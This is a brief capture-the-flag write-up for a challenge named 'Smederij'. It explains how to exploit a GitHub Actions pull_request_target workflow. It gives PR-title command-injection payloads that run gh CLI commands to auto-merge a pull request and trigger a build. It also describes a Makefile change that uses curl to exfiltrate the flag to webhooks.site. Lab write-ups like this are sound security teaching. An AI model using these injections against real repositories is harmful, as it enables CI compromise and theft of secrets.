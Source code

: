 # Smederij (medium)

Laat het smeden beginnen!

https://smederij.chall.pwnoh.io

![](./chall.png)

## Solution

https://docs.github.com/en/actions/using-workflows/events-that-trigger-workflows#pull_request_target

https://securitylab.github.com/research/github-actions-preventing-pwn-requests/

- create a PR to update Makefile (for example do curl to exfiltrate flag to webhooks.site)
- escape PR title and run gh CLI commands to merge your PR:  a"; gh pr merge --auto --merge 1 #
- run another gh command to run the build workflow on the main branch: x"; gh workflow run build --ref main # `update" && gh workflow run build --ref main && cookie=`
